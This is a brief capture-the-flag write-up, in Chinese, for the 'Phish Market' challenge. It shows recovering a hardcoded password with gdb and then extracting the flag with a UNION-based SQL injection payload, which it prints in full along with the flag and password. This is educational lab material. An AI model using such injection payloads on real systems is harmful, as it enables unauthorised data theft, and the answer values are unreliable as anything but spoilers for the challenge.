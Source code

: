 # rev - Phish Market Order Management Writeup

---  
![pic](pic/phish_market.png)

## FLAG：
`INTIGRITI{w3b_ch4ll3n63_1n_d156u153}`

## 觀察：
- 執行檔案：先輸入密碼，接者可以發送SQL query搜尋資料。

## 思路：
- input會直接跟記憶體內的字串比對，可以用gdb動態分析取得正確的input。
- SQL query 會直接與`SELECT name, price FROM products WHERE name = '`串接後執行，可以利用SQL injection取得database裡的FLAG。

## 目標：
- 找出密碼
- SQL injection

## 步驟：
1. gdb attach到docker裡的`./market`程序，找出密碼為`N3v3RG0nn@6u3$$!`。
2. 連接題目主機，輸入密碼後進行SQL injection：`' UNION SELECT flag, 1 FROM admin -- -`。

## Exploit：  

```
N3v3RG0nn@6u3$$!
1
' UNION SELECT flag, 1 FROM admin -- -
```

![pic](pic/flag.png)